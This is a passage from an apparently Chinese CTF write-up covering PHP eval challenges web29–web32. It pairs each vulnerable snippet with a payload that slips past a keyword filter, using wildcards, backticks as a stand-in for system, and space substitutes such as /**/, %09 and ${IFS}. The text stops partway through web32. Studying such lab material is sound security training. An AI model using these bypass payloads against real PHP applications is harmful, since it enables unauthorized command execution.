 

## web29（通配符）

```php
<?php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```
eval函数是把字符串作为PHP代码执行，过滤了flag，用通配符绕过
payload：/?c=&#96;tac fla?.php&#96;;  

## web30（反引号代替system）
```php
<?php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```
相比于上一题多过滤了system，php，php中，system可用反引号`绕过，php也用通配符绕过
这里要用echo将执行结果输出一下，不然没有回显
payload：/?c=echo `tac fla?.???`;

## web31（空格绕过）
```php
<?php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```
增加了过滤，相比于上一题多过滤了空格和点，点用通配符绕过
收集一下空格绕过姿势：/**/，%0a换行符，%09制表符，其他姿势还有${IFS}，<，<>，{tac,*}
payload：/?c=echo/**/`tac%09f???????`;
## web32（include逃逸）
```php
<?php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(/i", $c)){
        eval($c);
```